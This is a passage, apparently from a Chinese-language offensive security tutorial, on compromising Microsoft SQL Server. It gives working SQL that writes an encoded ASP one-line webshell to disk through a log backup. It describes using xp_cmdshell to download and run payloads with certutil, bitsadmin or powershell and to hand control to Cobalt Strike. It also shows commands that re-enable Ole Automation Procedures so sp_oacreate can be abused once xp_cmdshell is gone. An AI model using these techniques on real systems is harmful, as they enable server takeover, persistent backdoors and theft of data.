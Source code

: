 因为权限的问题，最好不要备份到盘符根目录

当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用定义局部变量来执行。

## log备份拿shell

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```mssql
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'
```

log备份的好处就是备份出来的webshell的文件大小非常的小

# getsystem

我们继续来探究怎么进行提权

## xp_cmdshell

在2005中xp_cmdshell的权限是system，2008中是network。

当遇到无法写shell，或者是站库分离的时候，直接通过xp_cmdshell来下载我们的payload来上线会更加方便。下载文件通常有下面几种姿势

1. certutil
2. vbs
3. bitsadmin
4. powershell
5. ftp

这个我会放在下一篇文章中细讲。

通过下载文件之后用xp_cmdshell来执行我们的payload，通过Cobalt Strike来进行下一步操作，比如怼exp或许会更加方便。

## sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;

```
